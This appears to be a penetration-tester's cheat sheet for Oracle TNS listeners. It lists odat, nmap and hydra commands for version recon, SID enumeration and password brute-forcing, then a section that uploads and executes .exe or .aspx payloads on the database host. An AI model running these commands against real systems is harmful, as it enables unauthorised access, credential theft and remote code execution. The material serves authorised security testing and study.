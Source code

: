 # slqi oracle odat

## Recon

```bash
nmap --script "oracle-tns-version" -p 1521 -T4 -sV DOMAIN|IP

# if TNS versions are incompatible using --10G flag
tnscmd10g status -h DOMAIN|IP [--10G]

(ERROR=(CODE=12618) => TNS version incompatible
(ERROR=(CODE=1189) => TNS could not authenticate user; needs PASS
```

Error Code Reference Link: [https://docs.oracle.com/database/121/ERRMG/TNS-00000.htm#ERRMG-GUID-D723D931-ECBA-4FA4-BF1B-1F4FE2EEBAD7](https://docs.oracle.com/database/121/ERRMG/TNS-00000.htm#ERRMG-GUID-D723D931-ECBA-4FA4-BF1B-1F4FE2EEBAD7)

## odat-enum

```bash
odat tnscmd -s DOMAIN|IP -p 1521 --CMD
CMD = [version | ping | status | services]

# sid enumeration
odat sidguesser -s DOMAIN|IP -p 1521 [--sids-file=/opt/oracle-tns/sids-oracle.txt]
hydra -L /opt/oracle-tns/sids-oracle.txt -s 1521 DOMAIN|IP oracle-sid

# password brute-force
# needs wordlist in format user/pass
$ sudo odat passwordguesser -s DOMAIN|IP -p 1521 -d "SID" --accounts-file FULL-PATH-FILE [--sysdba]

# /files/userpass-brute-oracle-tns.py
# needs wordlist in format user:pass
python oracle-userpass-brute.py DOMAIN|IP oracle_default_userpass.txt

# automated check
odat all -s DOMAIN|IP -d SID -U USER -P PASS [--sysdba]
```

## odat-shell

```bash
# upload and execute
odat utlfile -s DOMAIN|IP -p 1521 -U USER -P PASS -d SID --sysdba --putFile  C:\\PATH-TO-WRITE FILE.exe LOCAL-PATH-FILE.exe
odat externaltable -s DOMAIN|IP -p 1521 -U USER -P PASS -d SID --sysdba --exec /PATH-TO-FILE FILE.exe

[OR]
odat dbmsadvisor -s DOMAIN|IP -p 1521 -d SID -U USER -P PASS --sysdba --putFile C:\\PATH-TO-WRITE FILE.aspx LOCAL-PATH-FILE.aspx
```

![](https://0xdf.gitlab.io/img/ODAT_main_features_v2.0.jpg)

{% embed url="https://book.hacktricks.xyz/pentesting/1521-1522-1529-pentesting-oracle-listener" %}
